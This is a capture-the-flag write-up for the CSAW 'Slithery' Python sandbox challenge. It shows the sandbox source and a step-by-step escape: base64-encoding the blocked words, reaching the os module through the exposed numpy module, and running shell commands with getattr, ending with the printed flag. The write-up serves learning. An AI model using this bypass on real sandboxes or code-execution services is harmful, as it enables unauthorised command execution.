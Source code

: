 # Slithery

## Problem description

Setting up a new coding environment for my data science students. Some of them
are l33t h4ck3rs that got RCE and crashed my machine a few times :(. Can you
help test this before I use it for my class? Two sandboxes should be better
than one...

```nc pwn.chal.csaw.io 5011```

[sandbox.py](https://ctf.csaw.io/files/f273beef210bb77ed37ab74d82cb9799/sandbox.py?token=eyJ1c2VyX2lkIjo1MzYzLCJ0ZWFtX2lkIjo1MzI3LCJmaWxlX2lkIjo3NDMwfQ.X14Svg.zXKY8HMMgjM64swHwOaCZeUN5aE)

Category: pwn. Points: 100.

### sandbox.py
```
#!/usr/bin/env python3
from base64 import b64decode
import blacklist  # you don't get to see this :p

"""
Don't worry, if you break out of this one, we have another one underneath so that you won't
wreak any havoc!
"""

def main():
    print("EduPy 3.8.2")
    while True:
        try:
            command = input(">>> ")
            if any([x in command for x in blacklist.BLACKLIST]):
                raise Exception("not allowed!!")

            final_cmd = """
uOaoBPLLRN = open("sandbox.py", "r")
uDwjTIgNRU = int(((54 * 8) / 16) * (1/3) - 8)
ORppRjAVZL = uOaoBPLLRN.readlines()[uDwjTIgNRU].strip().split(" ")
AAnBLJqtRv = ORppRjAVZL[uDwjTIgNRU]
bAfGdqzzpg = ORppRjAVZL[-uDwjTIgNRU]
uOaoBPLLRN.close()
HrjYMvtxwA = getattr(__import__(AAnBLJqtRv), bAfGdqzzpg)
RMbPOQHCzt = __builtins__.__dict__[HrjYMvtxwA(b'X19pbXBvcnRfXw==').decode('utf-8')](HrjYMvtxwA(b'bnVtcHk=').decode('utf-8'))\n""" + command
            exec(final_cmd)

        except (KeyboardInterrupt, EOFError):
            return 0
        except Exception as e:
            print(f"Exception: {e}")

if __name__ == "__main__":
    exit(main())
```

## Personal note
First time solving a pwn challenge. It was fun to do a python RCE challenge,
and I also learned some new things about the python language.

## Tools
* python3 interpreter

## Solving the challenge
This is a coding environment that accepts python commands. However, there is
a blacklist, meaning a lot of our input will not be accepted. We need to get
around the blacklist to execute the commands that will let us read the flag.

This would be the naive approach (without the blacklist):
```
>>> import os
>>> # List files in current directory, hopefully the flag is there
>>> os.system("ls")
>>> # Assuming the flag is located in flag.txt
>>> os.system("cat flag.txt") # Output file content
```

Connecting via netcat: `nc pwn.chal.csaw.io 5011`

```
EduPy 3.8.2
>>> import os
Exception: not allowed!!
>>> import
Exception: not allowed!!
>>> os
Exception: not allowed!!
>>> system
Exception: not allowed!!
```

Thus, we can not import modules the traditional way, and the words "os" and "system"
are blacklisted. So we need to find another way to get the flag. Examining sandbox.py
gives us some hints. We have access to the script variables from the coding environment,
but the easiest way to examine how the code works (without being bothered by
the blacklist) is to paste it into our own python3 interpreter:

```
>>> uOaoBPLLRN = open("sandbox.py", "r")
>>> uDwjTIgNRU = int(((54 * 8) / 16) * (1/3) - 8)
>>> ORppRjAVZL = uOaoBPLLRN.readlines()[uDwjTIgNRU].strip().split(" ")
>>> AAnBLJqtRv = ORppRjAVZL[uDwjTIgNRU]
>>> bAfGdqzzpg = ORppRjAVZL[-uDwjTIgNRU]
>>> uOaoBPLLRN.close()
>>> HrjYMvtxwA = getattr(__import__(AAnBLJqtRv), bAfGdqzzpg)
>>> RMbPOQHCzt = __builtins__.__dict__[HrjYMvtxwA(b'X19pbXBvcnRfXw==').decode('utf-8')](HrjYMvtxwA(b'bnVtcHk=').decode('utf-8'))

# Examining variables
>>> print(AAnBLJqtRv)
base64
>>> print(bAfGdqzzpg)
b64decode
>>> print(HrjYMvtxwA)
<function b64decode at 0x7f2dfcadf2f0>
>>> print(RMbPOQHCzt)
<module 'numpy' from PATH+'/__init__.py'>
```

Now we know we can b64decode strings using the HrjYMvtxwA variable. This could
be a way to circumvent the blacklist.

Maybe we can put code into b64encoded strings, b64decode the strings,
and then run the decoded strings with either eval or exec?

Checking the coding environment:
```
EduPy 3.8.2
>>> eval
Exception: not allowed!!
>>> exec
Exception: not allowed!!
```

Seems eval or exec will not work. However, we also have access to the numpy module.
We can examine the numpy module further in our own python3 interpreter:
```
>>> print(RMbPOQHCzt.__dict__)
```

This module has a lot of attributes. For instance, I noticed that the sys
module is exposed through the numpy module.
```
>>> print(RMbPOQHCzt.sys)
<module 'sys' (built-in)>
```

So let's see if the os module is also exposed:
```
>>> print(RMbPOQHCzt.os)
<module 'os' from PATH+'os.py'>
```

This looks really promising. However, we still have the problem that we can not access
the os property directly from the coding environment, since the word "os" is blacklisted. To get around this restriction, we can first b64encode the word, and then b64decode it.
The problem then is that we will only have access to the word "os" as a string.
It is not possible to call a method using a string when using dot notation.

```
>>> print(RMbPOQHCzt."os")
  File "<stdin>", line 1
    >>> print(RMbPOQHCzt."os")
     ^
SyntaxError: invalid syntax
```

Actually, sandbox.py uses an alternative approach:
```
HrjYMvtxwA = getattr(__import__(AAnBLJqtRv), bAfGdqzzpg)
```

Let's find out more:
```
>>> help(getattr)

Help on built-in function getattr in module builtins:

getattr(...)
    getattr(object, name[, default]) -> value

    Get a named attribute from an object; getattr(x, 'y') is equivalent to x.y.
```

Using `getattr`, it should be possible to access the os attribute through a string.

Let's craft our solution in our own interpreter before trying it in the coding environment:
```
>>> base64.b64encode(b'os')
b'b3M='
>>> base64.b64encode(b'system')
b'c3lzdGVt'
>>> o = getattr(RMbPOQHCzt, HrjYMvtxwA(b'b3M=').decode('utf-8'))
>>> getattr(o, HrjYMvtxwA(b'c3lzdGVt').decode('utf-8'))("ls") # Equivalent to os.system("ls")
>>> getattr(o, HrjYMvtxwA(b'c3lzdGVt').decode('utf-8'))("cat flag.txt") # Assuming flag is in flag.txt

```

Connecting to the coding environment:
```
$ nc pwn.chal.csaw.io 5011
EduPy 3.8.2
>>> o = getattr(RMbPOQHCzt, HrjYMvtxwA(b'b3M=').decode('utf-8'))
>>> getattr(o, HrjYMvtxwA(b'c3lzdGVt').decode('utf-8'))("ls")                      
blacklist.py
flag.txt
runner.py
sandbox.py
solver.py
>>>
>>> getattr(o, HrjYMvtxwA(b'c3lzdGVt').decode('utf-8'))("cat flag.txt")
flag{y4_sl1th3r3d_0ut}
```

Finally, we obtain the flag: \
`flag{y4_sl1th3r3d_0ut}`
